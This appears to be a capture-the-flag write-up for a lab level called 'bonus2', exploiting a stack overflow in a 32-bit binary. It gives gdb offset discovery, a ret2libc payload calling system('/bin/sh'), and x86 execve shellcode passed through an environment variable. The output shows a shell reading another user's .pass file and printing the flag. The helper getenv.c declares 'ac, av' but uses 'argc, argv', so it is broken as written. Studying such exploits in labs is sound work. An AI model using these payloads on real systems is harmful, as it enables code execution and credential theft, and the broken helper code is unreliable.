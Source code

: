 # bonus2

In this level, the program is not the same if we change the `LANG` env var:
```
export LANG=en_US.UTF-8
export LANG=fi_FI.UTF-8
export LANG=nl_NL.UTF-8
```

If we analyse a little the program, we can see that with the `export LANG=fi_FI.UTF-8`, we can show the EIP at an offset of 18 on the second string

```bash
> export LANG=fi_FI.UTF-8
> gdb bonus2
(gdb) $ run "0123456789012345678901234567890123456789" "AAA~AAA}AAA|AAA{AAAzAAAyAAAxAAAwAAAvAAAuAAAtAAAsAAArAAAqAAApAAAoAAAnAAAmAAAlAAAkAAAjAAAiAAAhAAAgAAAf"
...
(segfault) -> Invalid $PC address: 0x41417a41
EIP: 0x41417a41 ('AzAA') -> offset: 18 (./pattern.py search "AzAA")
```

We can call any function with this feature, let's try to find the `system` function
```bash
> gdb bonus2
(gdb) $ b main
(gdb) $ run
(gdb) $ info function system  # need to call it while runningn
0xb7e6b060  system
```

We can call system with this command
```bash
./bonus2 "`perl -e 'print "A"x40'`" "`perl -e 'print "B"x18 . "\x60\xb0\xe6\xb7"'`"
```
The `call system` is after `ret` of `greetuser` function

Now we know that the first argument of call system is the first argument + 3: `./run AA...A<arg-system>AA...A B*18<system-addr>
The arg is `/bin/sh`, try to find this:
```bash
> gdb bonus2
(gdb) $ b main
(gdb) $ run
(gdb) $ find "/bin/sh"
libc : 0xb7f8cc58 ("/bin/sh")
```

Now we have the argument to send to `system`
```bash
> export LANG=fi_FI.UTF-8
> ./bonus2 "`perl -e 'print "\x58\xcc\xf8\xb7"x10'`" "`perl -e 'print "C"x18 . "\x60\xb0\xe6\xb7"'`"
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

# Alternative with env

```bash
export LANG=fi_FI_US.UTF-8
```

```
r $(perl -e 'print "A"x40') $(perl -e 'print "B"x32')
segfault

pattern create 32
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;A'


r $(perl -e 'print "A"x40') 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;A'
EIP: 0x2d414143 ('CAA-')
EIP+0 found at offset: 18

r $(perl -e 'print "A"x40') $(perl -e 'print "B"x18 . "TADA" . "B"x(32 - 18 - 4)')
```

First, we can add the environnement variable that contains the shellcode.
```bash
export SHELLCODE="`perl -e 'print "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"'`"
```

Let's reuse a c program to get environement var address:
```c
/* gcc -m32 getenv.c -o getenv */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int ac, char *av[]) {
    if(argc < 3) {
        printf("Usage: ./getenv <environment variable> <target name program>\n");
        exit(1);
    }

    char	*ptr = getenv(argv[1]);
    /*
		Le calcul qui suit est nécessaire car le contexte d'exécution peut être différent selon
		l'endroit où l'on se trouve.
		En effet, la variable d'environnement PWD indique le chemin absolu du dossier dans lequel
		on se trouve : la longueur de ce chemin aura un impact sur l'emplacement des variables suivantes
    */
    ptr += strlen(argv[0]) - strlen(argv[2]);

    printf("%s found at %p\n", argv[1], ptr);

    return 0;
}
```

## Exploit

```bash
> ./getenv SHELLCODE ./bonus2
SHELLCODE found at 0xbffff817

> ./bonus2 $(perl -e 'print "A"x40') $(perl -e 'print "B"x18 . "\x17\xf8\xff\xbf" . "B"x(32 - 18 - 4)')
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB���BBBBBBBBBB
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```